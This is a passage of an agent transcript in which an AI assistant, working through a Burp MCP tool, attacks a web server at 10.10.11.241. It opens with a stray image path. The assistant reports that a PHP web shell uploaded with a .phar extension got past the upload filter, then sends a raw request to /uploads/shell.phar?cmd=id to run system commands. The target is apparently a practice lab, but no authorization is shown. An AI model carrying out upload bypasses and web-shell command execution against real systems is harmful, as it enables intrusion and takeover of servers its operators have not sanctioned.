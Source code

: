 </use_mcp_tool>

---

**User:**

[use_mcp_tool for 'burpmcp'] Result:
HTTP/1.1 302 Found
Date: Wed, 07 May 2025 23:41:32 GMT
Server: Apache/2.4.55 (Ubuntu)
Location: /success.php
Content-Length: 0
Connection: close
Content-Type: text/html; charset=UTF-8


<environment_details>
# VSCode Visible Files
(No visible files)

# VSCode Open Tabs
(No open tabs)

# Current Time
5/7/2025, 12:41:33 PM (America/New_York, UTC-4:00)

# Context Window Usage
48,419 / 200K tokens used (24%)

# Current Mode
ACT MODE
</environment_details>

---

**Assistant:**

<thinking>
The upload with the .phar extension was successful. Let's try to access the uploaded file to see if the PHP code is executed:
</thinking>

The upload with the .phar extension was successful. Let's try to access the uploaded file to see if the PHP code is executed.

<use_mcp_tool>
<server_name>burpmcp</server_name>
<tool_name>http1-send</tool_name>
<arguments>
{
  "data": "GET /uploads/shell.phar?cmd=id HTTP/1.1\r\nHost: 10.10.11.241:8080\r\nUser-Agent: Mozilla/5.0\r\nAccept: text/html,application/xhtml+xml,application/xml\r\nCookie: PHPSESSID=6qaatgee7p8mj7aeu3fc0g3jtn\r\nConnection: close\r\n\r\n",
  "host": "10.10.11.241",
  "port": 8080,
  "secure": false
}
</arguments>
</use_mcp_tool>

---